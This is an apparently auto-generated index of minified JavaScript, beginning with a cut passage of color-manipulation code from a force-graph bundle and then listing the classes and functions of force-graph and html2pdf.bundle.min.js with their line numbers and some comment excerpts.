r=ii(t).toHsl(),i=360/e,o=[ii(t)];for(r.h=(r.h-(i*n>>1)+720)%360;--n;)r.h=(r.h+i)%360,o.push(ii(r));return o}function xi(t,n){n=n||6;for(var e=ii(t).toHsv(),r=e.h,i=e.s,o=e.v,a=[],u=1/n;n--;)a.push(ii({h:r,s:i,v:o})),o=(o+u)%1;return a}ii.prototype={isDark:function(){return this.getBrightness()<128},isLight:function(){return!this.isDark()},isValid:function(){return this._ok},getOriginalInput:function(){return this._originalInput},getFormat:function(){return this._format},getAlpha:function(){return this._a},getBrightness:function(){var t=this.toRgb();return(299*t.r+587*t.g+114*t.b)/1e3},getLuminance:function(){var t,n,e,r=this.toRgb();return t=r.r/255,n=r.g/255,e=r.b/255,.2126*(t<=.03928?t/12.92:Math.pow((t+.055)/1.055,2.4))+.7152*(n<=.03928?n/12.92:Math.pow((n+.055)/1.055,2.4))+.0722*(e<=.03928?e/12.92:Math.pow((e+.055)/1.055,2.4))},setAlpha:function(t){return this._a=ki(t),this._roundA=Math.round(100*this._a)/100,this},toHsv:function(){var t=ai(this._r,this._g,this._b);return{h:360*t.h,s:t.s,v:t.v,a:this._a}},toHsvString:function(){var t=ai(this._r,this._g,this._b),n=Math.round(360*t.h),e=Math.round(100*t.s),r=Math.round(100*t.v);return 1==this._a?"hsv("+n+", "+e+"%, "+r+"%)":"hsva("+n+", "+e+"%, "+r+"%, "+this._roundA+")"},toHsl:function(){var t=oi(this._r,this._g,this._b);return{h:360*t.h,s:t.s,l:t.l,a:this._a}},toHslString:function(){var t=oi(this._r,this._g,this._b),n=Math.round(360*t.h),e=Math.round(100*t.s),r=Math.round(100*t.l);return 1==this._a?"hsl("+n+", "+e+"%, "+r+"%)":"hsla("+n+", "+e+"%, "+r+"%, "+this._roundA+")"},toHex:function(t){return ui(this._r,this._g,this._b,t)},toHexString:function(t){return"#"+this.toHex(t)},toHex8:function(t){return function(t,n,e,r,i){var o=[Si(Math.round(t).toString(16)),Si(Math.round(n).toString(16)),Si(Math.round(e).toString(16)),Si(Ei(r))];if(i&&o[0].charAt(0)==o[0].charAt(1)&&o[1].charAt(0)==o[1].charAt(1)&&o[2].charAt(0)==o[2].charAt(1)&&o[3].charAt(0)==o[3].charAt(1))return o[0].charAt(0)+o[1].charAt(0)+o[2].charAt(0)+o[3].charAt(0);return o.join("")}(this._r,this._g,this._b,this._a,t)},toHex8String:function(t){return"#"+this.toHex8(t)},toRgb:function(){return{r:Math.round(this._r),g:Math.round(this._g),b:Math.round(this._b),a:this._a}},toRgbString:function(){return 1==this._a?"rgb("+Math.round(this._r)+", "+Math.round(this._g)+", "+Math.round(this._b)+")":"rgba("+Math.round(this._r)+", "+Math.round(this._g)+", "+Math.round(this._b)+", "+this._roundA+")"},toPercentageRgb:function(){return{r:Math.round(100*Mi(this._r,255))+"%",g:Math.round(100*Mi(this._g,255))+"%",b:Math.round(100*Mi(this._b,255))+"%",a:this._a}},toPercentageRgbString:function(){return 1==this._a?"rgb("+Math.round(100*Mi(this._r,255))+"%, "+Math.round(100*Mi(this._g,255))+"%, "+Math.round(100*Mi(this._b,255))+"%)":"rgba("+Math.round(100*Mi(this._r,255))+"%, "+Math.round(100*Mi(this._g,255))+"%, "+Math.round(100*Mi(this._b,255))+"%, "+this._roundA+")"},toName:function(){return 0===this._a?"transparent":!(this._a<1)&&(wi[ui(this._r,this._g,this._b,!0)]||!1)},toFilter:function(t){var n="#"+si(this._r,this._g,this._b,this._a),e=n,r=this._gradientType?"GradientType = 1, ":"";if(t){var i=ii(t);e="#"+si(i._r,i._g,i._b,i._a)}return"progid:DXImageTransform.Microsoft.gradient("+r+"startColorstr="+n+",endColorstr="+e+")"},toString:function(t){var n=!!t;t=t||this._format;var e=!1,r=this._a<1&&this._a>=0;return n||!r||"hex"!==t&&"hex6"!==t&&"hex3"!==t&&"hex4"!==t&&"hex8"!==t&&"name"!==t?("rgb"===t&&(e=this.toRgbString()),"prgb"===t&&(e=this.toPercentageRgbString()),"hex"!==t&&"hex6"!==t||(e=this.toHexString()),"hex3"===t&&(e=this.toHexString(!0)),"hex4"===t&&(e=this.toHex8String(!0)),"hex8"===t&&(e=this.toHex8String()),"name"===t&&(e=this.toName()),"hsl"===t&&(e=this.toHslString()),"hsv"===t&&(e=this.toHsvString()),e||this.toHexString()):"name"===t&&0===this._a?this.toName():this.toRgbString()},clone:function(){return ii(this.toString())},_applyModification:function(t,n){var e=t.apply(null,[this].concat([].slice.call(n)));return this._r=e._r,this._g=e._g,this._b=e._b,this.setAlpha(e._a),this},lighten:function(){return this._applyModification(fi,arguments)},brighten:function(){return this._applyModification(di,arguments)},darken:function(){return this._applyModification(pi,arguments)},desaturate:function(){return this._applyModification(li,arguments)},saturate:function(){return this._applyModification(ci,arguments)},greyscale:function(){return this._applyModification(hi,arguments)},spin:function(){return this._applyModification(gi,arguments)},_applyCombination:function(t,n){return t.apply(null,[this].concat([].slice.call(n)))},analogous:function(){return this._applyCombination(mi,arguments)},complement:function(){return this._applyCombination(yi,arguments)},monochromatic:function(){return this._applyCombination(xi,arguments)},splitcomplement:function(){return this._applyCombination(_i,arguments)},triad:function(){return this._applyCombination(vi,[3])},tetrad:function(){return this._applyCombination(vi,[4])}},ii.fromRatio=function(t,n){if("object"==ni(t)){var e={};for(var r in t)t.hasOwnProperty(r)&&(e[r]="a"===r?t[r]:Ci(t[r]));t=e}return ii(t,n)},ii.equals=function(t,n){return!(!t||!n)&&ii(t).toRgbString()==ii(n).toRgbString()},ii.random=function(){return ii.fromRatio({r:Math.random(),g:Math.random(),b:Math.random()})},ii.mix=function(t,n,e){e=0===e?0:e||50;var r=ii(t).toRgb(),i=ii(n).toRgb(),o=e/100;return ii({r:(i.r-r.r)*o+r.r,g:(i.g-r.g)*o+r.g,b:(i.b-r.b)*o+r.b,a:(i.a-r.a)*o+r.a})},*

**Classes:**
- `or` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `as` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `as` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Ho` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Jo` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*

**Functions:**
- `t` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `n` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `h` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `u` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `y` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `l` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `b` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `h` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `s` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `f` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `i` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `n` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `Cn` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `Tr` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `o` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `ti` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `e` (line 2) - *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph*
- `e` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Fi` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `r` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `n` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `sa` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `ha` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `v` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `o` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `c` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*

#### `html2pdf.bundle.min.js`
**Path:** `static/js/html2pdf.bundle.min.js`

**Classes:**
- `as` (line 248)
- `as` (line 587)
- `as` (line 841)
- `as` (line 942)
- `as` (line 1012)
- `as` (line 1033)
- `as` (line 1064)
- `as` (line 1125)
- `as` (line 1382)
- `as` (line 2626)
- `as` (line 3018)
- `as` (line 3211)
- `of` (line 3353)
- `as` (line 3912)
- `as` (line 3988)
- `as` (line 4046)
- `as` (line 4582)
- `as` (line 4773)
- `as` (line 4931)
- `as` (line 5068)
- `as` (line 5523)
- `as` (line 5906)
- `as` (line 6518)
- `Promise` (line 8236)

**Functions:**
- `commonjsRequire` (line 14)
- `unwrapExports` (line 18)
- `createCommonjsModule` (line 22)
- `o` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `sliceIterator` (line 244)
- `defineProperties` (line 246)
- `_classCallCheck` (line 248)
- `hex3` (line 251)
- `hex6` (line 260)
- `rgb` (line 269)
- `rgba` (line 278)
- `fromArray` (line 286)
- `namedColor` (line 290)
- `Color` (line 296)
- `isTransparent` (line 314)
- `toString` (line 319)
- `_interopRequireDefault` (line 498)
- `parseLine` (line 519)
- `parseTextDecorationLine` (line 531)
- `parseTextDecorationStyle` (line 539)
- `parseTextDecoration` (line 553)
- `defineProperties` (line 581)
- `_classCallCheck` (line 587)
- `addColorStops` (line 589)
- `CanvasRenderer` (line 600)
- `render` (line 608)
- `clip` (line 623)
- `drawImage` (line 642)
- `drawShape` (line 647)
- `fill` (line 654)
- `getTarget` (line 660)
- `path` (line 666)
- `rectangle` (line 691)
- `renderLinearGradient` (line 697)
- `renderRadialGradient` (line 706)
- `renderRepeat` (line 736)
- `renderTextNode` (line 745)
- `resizeImage` (line 795)
- `setOpacity` (line 809)
- `transform` (line 814)
- `defineProperties` (line 839)
- `_classCallCheck` (line 841)
- `Logger` (line 844)
- `child` (line 854)
- `log` (line 862)
- `error` (line 876)
- `contains` (line 899)
- `distance` (line 903)
- `copyCSSStyles` (line 907)
- `defineProperties` (line 934)
- `_interopRequireDefault` (line 940)
- `_classCallCheck` (line 942)
- `Length` (line 950)
- `isPercentage` (line 960)
- `getAbsoluteValue` (line 965)
- `create` (line 970)
- `getRootFontSize` (line 981)
- `calculateLengthFromValueWithUnit` (line 986)
- `_classCallCheck` (line 1012)
- `Size` (line 1014)
- `_classCallCheck` (line 1033)
- `Vector` (line 1035)
- `defineProperties` (line 1054)
- `_interopRequireDefault` (line 1062)
- `_classCallCheck` (line 1064)
- `lerp` (line 1066)
- `BezierCurve` (line 1071)
- `subdivide` (line 1083)
- `reverse` (line 1094)
- `defineProperties` (line 1113)
- `_interopRequireDefault` (line 1123)
- `_classCallCheck` (line 1125)
- `Bounds` (line 1136)
- `fromClientRect` (line 1147)
- `parseBounds` (line 1155)
- `calculatePaddingBox` (line 1159)
- `calculateContentBox` (line 1163)
- `parseDocumentSize` (line 1173)
- `parsePathForBorder` (line 1187)
- `createPathFromCurves` (line 1201)
- `calculateBorderBoxPath` (line 1230)
- `calculatePaddingBoxPath` (line 1234)
- `parseBoundCurves` (line 1238)
- `getCurvePoints` (line 1290)
- `_interopRequireDefault` (line 1332)
- `parsePadding` (line 1343)
- `_interopRequireDefault` (line 1380)
- `_classCallCheck` (line 1382)
- `BackgroundSize` (line 1408)
- `calculateBackgroundSize` (line 1426)
- `calculateGradientBackgroundSize` (line 1455)
- `calculateBackgroungPaintingArea` (line 1465)
- `calculateBackgroungPositioningArea` (line 1475)
- `calculateBackgroundPosition` (line 1493)
- `calculateBackgroundRepeatPath` (line 1497)
- `parseBackground` (line 1511)
- `parseBackgroundClip` (line 1520)
- `parseBackgroundOrigin` (line 1530)
- `parseBackgroundRepeat` (line 1540)
- `parseBackgroundImages` (line 1557)
- `parseBackgroundSize` (line 1582)
- `parseBackgoundPosition` (line 1586)
- `parseBackgroundImage` (line 1600)
- `appendResult` (line 1611)
- `_interopRequireDefault` (line 1728)
- `parseBorderStyle` (line 1746)
- `parseBorder` (line 1754)
- `sliceIterator` (line 1779)
- `_interopRequireDefault` (line 1785)
- `parseBorderRadius` (line 1789)
- `parseDisplayValue` (line 1843)
- `setDisplayBit` (line 1908)
- `parseDisplay` (line 1912)
- `parseCSSFloat` (line 1933)
- `parseFontWeight` (line 1958)
- `parseFont` (line 1970)
- `parseLetterSpacing` (line 1994)
- `parseLineBreak` (line 2015)
- `parseListStyleType` (line 2100)
- `parseListStyle` (line 2214)
- `parseListStylePosition` (line 2223)
- `_interopRequireDefault` (line 2250)
- `parseMargin` (line 2254)
- `parseOverflow` (line 2275)
- `parseOverflowWrap` (line 2303)
- `parsePosition` (line 2330)
- `_interopRequireDefault` (line 2360)
- `parseTextShadow` (line 2364)
- `appendValue` (line 2376)
- `appendShadow` (line 2388)
- `parseTextTransform` (line 2460)
- `_interopRequireDefault` (line 2488)
- `toFloat` (line 2490)
- `parseTransform` (line 2496)
- `parseTransformOrigin` (line 2517) - *$FlowFixMe*
- `parseTransformMatrix` (line 2527) - *$FlowFixMe*
- `parseVisibility` (line 2559)
- `parseWordBreak` (line 2586)
- `parseZIndex` (line 2607)
- `defineProperties` (line 2624)
- `_classCallCheck` (line 2626)
- `ForeignObjectRenderer` (line 2629)
- `render` (line 2637)
- `createForeignObjectSVG` (line 2667)
- `loadSerializedSVG` (line 2686)
- `testRangeBounds` (line 2710)
- `testBase64` (line 2735) - *iOS 10.3 taints canvas with base64 images unless crossOrigin = 'anonymous'*
- `onload` (line 2744)
- `testCORS` (line 2768)
- `testResponseType` (line 2772)
- `testSVG` (line 2776)
- `isGreenPixel` (line 2791)
- `testForeignObject` (line 2795)
- `value` (line 2848)
- `toCodePoints` (line 2889)
- `fromCodePoint` (line 2910)
- `decode` (line 2948)
- `polyUint16Array` (line 2982)
- `polyUint32Array` (line 2991)
- `defineProperties` (line 3014)
- `_classCallCheck` (line 3018)
- `createTrieFromBase64` (line 3087)
- `Trie` (line 3100)
- `get` (line 3121)
- `defineProperties` (line 3195)
- `sliceIterator` (line 3197)
- `_interopRequireDefault` (line 3207)
- `_toConsumableArray` (line 3209)
- `_classCallCheck` (line 3211)
- `codePointsToCharacterClasses` (line 3323)
- `isAdjacentWithSpaceIgnored` (line 3395)
- `previousNonSpaceClassType` (line 3444)
- `_lineBreakAtIndex` (line 3457)
- `lineBreakAtIndex` (line 3686)
- `cssFormattedClasses` (line 3705)
- `inlineBreakOpportunities` (line 3729)
- `Break` (line 3747)
- `slice` (line 3758)
- `LineBreaker` (line 3766)
- `next` (line 3780)
- `get` (line 3820)
- `get` (line 3826)
- `get` (line 3835)
- `get` (line 3853)
- `get` (line 3859)
- `_interopRequireDefault` (line 3870)
- `breakWords` (line 3872)
- `_interopRequireDefault` (line 3910)
- `_classCallCheck` (line 3912)
- `TextBounds` (line 3914)
- `parseTextBounds` (line 3921)
- `getWrapperBounds` (line 3950)
- `getRangeBounds` (line 3965)
- `defineProperties` (line 3982)
- `_classCallCheck` (line 3988)
- `TextContainer` (line 3991)
- `fromTextNode` (line 4001)
- `transform` (line 4015)
- `capitalize` (line 4028)
- `_classCallCheck` (line 4046)
- `Circle` (line 4048)
- `_interopRequireDefault` (line 4099)
- `getInputBorderRadius` (line 4125)
- `inlineInputElement` (line 4129)
- `inlineTextAreaElement` (line 4140)
- `inlineSelectElement` (line 4144)
- `reformatInputBounds` (line 4149)
- `inlineFormElement` (line 4160)
- `getInputValue` (line 4179)
- `_interopRequireDefault` (line 4216)
- `getListOwner` (line 4223)
- `inlineListItemElement` (line 4240)
- `createAdditiveCounter` (line 4326)
- `createCounterStyleWithSymbolResolver` (line 4340)
- `createCounterStyleFromRange` (line 4354)
- `createCounterStyleFromSymbols` (line 4362)
- `createCJKCounter` (line 4376)
- `createCounterText` (line 4408)
- `defineProperties` (line 4524)
- `_interopRequireDefault` (line 4580)
- `_classCallCheck` (line 4582)
- `NodeContainer` (line 4587)
- `getClipPaths` (line 4666)
- `isInFlow` (line 4674)
- `isVisible` (line 4679)
- `isAbsolutelyPositioned` (line 4684)
- `isPositioned` (line 4689)
- `isFloating` (line 4694)
- `isRootElement` (line 4699)
- `isTransformed` (line 4704)
- `isPositionedWithZIndex` (line 4709)
- `isInlineLevel` (line 4714)
- `isInlineBlockOrInlineTable` (line 4719)
- `getImage` (line 4730)
- `defineProperties` (line 4763)
- `_interopRequireDefault` (line 4771)
- `_classCallCheck` (line 4773)
- `StackingContext` (line 4776)
- `getOpacity` (line 4788)
- `getRealParentStackingContext` (line 4793)
- `_interopRequireDefault` (line 4830)
- `NodeParser` (line 4832)
- `parseNodeTree` (line 4845)
- `createsRealStackingContext` (line 4905)
- `createsStackingContext` (line 4909)
- `isBodyWithTransparentRoot` (line 4913)
- `defineProperties` (line 4927)
- `_classCallCheck` (line 4931)
- `FontMetrics` (line 4936)
- `_parseMetrics` (line 4945)
- `getMetrics` (line 4995)
- `parseAngle` (line 5018)
- `sliceIterator` (line 5048)
- `_interopRequireDefault` (line 5066)
- `_classCallCheck` (line 5068)
- `LinearGradient` (line 5094)
- `RadialGradient` (line 5102)
- `parseGradient` (line 5112)
- `parseColorStops` (line 5129)
- `parseLinearGradient` (line 5178)
- `parseRadialGradient` (line 5193)
- `calculateGradientDirection` (line 5234)
- `parseTopRight` (line 5250)
- `parseSideOrCorner` (line 5254)
- `parsePercentageAngle` (line 5292)
- `findCorner` (line 5303)
- `calculateRadius` (line 5323)
- `transformWebkitRadialGradientArgs` (line 5392)
- `transformObsoleteColorStops` (line 5465)
- `sliceIterator` (line 5503)
- `defineProperties` (line 5505)
- `_interopRequireDefault` (line 5521)
- `_classCallCheck` (line 5523)
- `Renderer` (line 5526)
- `renderNode` (line 5536)
- `renderNodeContent` (line 5544)
- `callback` (line 5547)
- `renderNodeBackgroundAndBorders` (line 5582)
- `callback` (line 5591)
- `renderBackgroundImage` (line 5622)
- `renderBackgroundRepeat` (line 5635)
- `renderBackgroundGradient` (line 5650)
- `renderBorder` (line 5672)
- `renderStack` (line 5677)
- `renderStackContent` (line 5699)
- `render` (line 5748)
- `splitDescendants` (line 5764)
- `splitStackingContexts` (line 5780)
- `sortByZIndex` (line 5808)
- `_interopRequireDefault` (line 5831)
- `Proxy` (line 5833)
- `defineProperties` (line 5896)
- `_interopRequireDefault` (line 5904)
- `_classCallCheck` (line 5906)
- `ResourceLoader` (line 5909)
- `loadImage` (line 5922)
- `inlineImage` (line 5950)
- `xhrImage` (line 5969)
- `loadCanvas` (line 6010)
- `hasResourceInCache` (line 6017)
- `addImage` (line 6022)
- `imageLoadHandler` (line 6025)
- `isSameOrigin` (line 6059)
- `getOrigin` (line 6064)
- `ready` (line 6072)
- `ResourceStore` (line 6093)
- `get` (line 6102)
- `isInlineImage` (line 6115)
- `isInlineBase64Image` (line 6118)
- `isBlobImage` (line 6121)
- `isSVG` (line 6125)
- `_loadImage` (line 6129)
- `sliceIterator` (line 6161)
- `parseCounterReset` (line 6182)
- `popCounters` (line 6208)
- `resolvePseudoContent` (line 6215)
- `parseContent` (line 6295)
- `addOtherToken` (line 6442)
- `getQuote` (line 6453)
- `formatCounterValue` (line 6465)
- `sliceIterator` (line 6494)
- `defineProperties` (line 6496)
- `_interopRequireDefault` (line 6516)
- `_classCallCheck` (line 6518)
- `DocumentCloner` (line 6523)
- `inlineAllImages` (line 6544)
- `inlineFonts` (line 6581)
- `createElementClone` (line 6627)
- `cloneNode` (line 6709)
- `getSheetFonts` (line 6776)
- `createStyleSheetFontsFromText` (line 6813)
- `restoreOwnerScroll` (line 6831)
- `cloneCanvasContents` (line 6837)
- `inlinePseudoElement` (line 6853)
- `createPseudoHideStyles` (line 6897)
- `createStyles` (line 6901)
- `initNode` (line 6907)
- `generateIframeKey` (line 6917)
- `getIframeDocumentElement` (line 6923)
- `createIframeContainer` (line 6952)
- `iframeLoader` (line 6974)
- `cloneWindow` (line 6990)
- `serializeDoctype` (line 7034)
- `sliceIterator` (line 7071)
- `_interopRequireDefault` (line 7101)
- `renderElement` (line 7103)
- `_interopRequireDefault` (line 7225)
- `html2canvas` (line 7227)
- `objType` (line 7309) - *Determine the type of a variable/object.*
- `createElement` (line 7315) - *Create an HTML element with optional className, innerHTML, and style.*
- `cloneNode` (line 7332) - *Deep-clone a node and preserve contents/properties.*
- `unitConvert` (line 7363) - *Convert units from px using the conversion value 'k' from jsPDF.*
- `toPx` (line 7376) - *Convert units to px using the conversion value 'k' from jsPDF.*
- `objectOrFunction` (line 7391)
- `isFunction` (line 7396)
- `asap` (line 7417)
- `setScheduler` (line 7433)
- `setAsap` (line 7437)
- `useNextTick` (line 7450) - *node*
- `useVertxTimer` (line 7459) - *vertx*
- `useMutationObserver` (line 7469)
- `useMessageChannel` (line 7481) - *web worker*
- `useSetTimeout` (line 7489)
- `flush` (line 7499)
- `attemptVertx` (line 7513)
- `then` (line 7537)
- `resolve` (line 7592) - *let promise = Promise.resolve(1); promise.then(function(value){ value === 1 }); ``` @method resolve @static @param {Any} value value that the returned promise will be resolved with Useful for tooling. @return {Promise} a promise that will become fulfilled with the given `value`*
- `noop` (line 7607)
- `selfFulfillment` (line 7615)
- `cannotReturnOwn` (line 7619)
- `getThen` (line 7623)
- `tryThen` (line 7632)
- `handleForeignThenable` (line 7640)
- `handleOwnThenable` (line 7669)
- `handleMaybeThenable` (line 7683)
- `resolve` (line 7700)
- `publishRejection` (line 7710)
- `fulfill` (line 7718)
- `reject` (line 7731)
- `subscribe` (line 7741)
- `publish` (line 7757)
- `tryCatch` (line 7783)
- `invokeCallback` (line 7792)
- `initializePromise` (line 7832)
- `rejectPromise` (line 7836)
- `nextId` (line 7845)
- `makePromise` (line 7849)
- `validationError` (line 7856)
- `Enumerator` (line 7861)
- `_enumerate` (line 7889)
- `_eachEntry` (line 7895)
- `_settledAt` (line 7922)
- `_willSettleAt` (line 7941)
- `all` (line 8001) - *}, function(error) { error.message === "2" }); ``` @method all @static @param {Array} entries array of promises @param {String} label optional string for labeling the promise. Useful for tooling. @return {Promise} promise that is fulfilled when all `promises` have been fulfilled, or rejected if any of them become rejected. @static*
- `race` (line 8070) - *An example real-world use case is implementing timeouts: ```javascript Promise.race([ajax('foo.json'), timeout(5000)]) ``` @method race @static @param {Array} promises array of promises to observe Useful for tooling. @return {Promise} a promise which settles in the same way as the first passed promise to settle.*
- `reject` (line 8122) - *promise.then(function(value){ Code here doesn't run because the promise is rejected! }, function(reason){ reason.message === 'WHOOPS' }); ``` @method reject @static @param {Any} reason value that the returned promise will be rejected with. Useful for tooling. @return {Promise} a promise rejected with the given `reason`.*
- `needsResolver` (line 8130)
- `as` (line 8131)
- `needsNew` (line 8134)
- `with` (line 8147)
- `that` (line 8148)
- `getJSON` (line 8193)
- `handler` (line 8203)
- `Promise` (line 8243)
- `foundBooks` (line 8370)
- `failure` (line 8372)
- `findAuthor` (line 8419)
- `_catch` (line 8440)
- `_finally` (line 8484)
- `polyfill` (line 8516) - *return Promise; }(); Promise$1.prototype.then = then; Promise$1.all = all; Promise$1.race = race; Promise$1.resolve = resolve$1; Promise$1.reject = reject$1; Promise$1._setScheduler = setScheduler; Promise$1._setAsap = setAsap; Promise$1._asap = asap; /*global self*
- `Worker` (line 8566)
- `convert` (line 8582) - *Converts/casts promises into Workers.*
- `from` (line 8616)
- `getType` (line 8617)
- `to` (line 8645)
- `toContainer` (line 8661)
- `prerequisites` (line 8662)
- `checkPageSize` (line 8665)
- `toCanvas` (line 8695)
- `prerequisites` (line 8696)
- `toImg` (line 8718)
- `prerequisites` (line 8719)
- `toPdf` (line 8732)
- `prerequisites` (line 8733)
- `output` (line 8785)
- `outputPdf` (line 8795)
- `prerequisites` (line 8796)
- `outputImg` (line 8812)
- `prerequisites` (line 8813)
- `save` (line 8836)
- `prerequisites` (line 8837)
- `set` (line 8850)
- `set_prop` (line 8862) - *Set pre-defined properties.*
- `set_jsPDF` (line 8870)
- `set_opt` (line 8877) - *Set any other properties in opt.*
- `get` (line 8890)
- `setMargin` (line 8898)
- `setPageSize` (line 8920)
- `setProgress` (line 8943)
- `updateProgress` (line 8955)
- `then` (line 8962)
- `then_main` (line 8966)
- `then_pre` (line 8969)
- `thenCore` (line 8979)
- `thenExternal` (line 9001)
- `thenList` (line 9006)
- `catchExternal` (line 9024)
- `error` (line 9029)
- `toContainer` (line 9182)
- `pagebreak_loop` (line 9213)
- `toContainer` (line 9287)
- `toPdf` (line 9317)
- `html2pdf` (line 9342) - *Generate a PDF from an HTML element or string using html2canvas and jsPDF.  @param {Element|string} source The source element or HTML string. @param {Object=} opt An object of optional settings: 'margin', 'filename', 'image' ('type' and 'quality'), and 'html2canvas' / 'jspdf', which are sent as settings to their corresponding functions.*
- `r` (line 70) - *jsPDF Canvas PlugIn Copyright (c) 2014 Steven Spungin (TwelveTone LLC)  steven@twelvetone.tv  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `n` (line 94) - *jsPDF bmp Support PlugIn Copyright (c) 2018 Aras Abbasi  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `r` (line 115) - *@preserve jsPDF SVG plugin Copyright (c) 2012 Willow Systems Corporation, willow-systems.com*
- `a` (line 146)
- `s` (line 146)
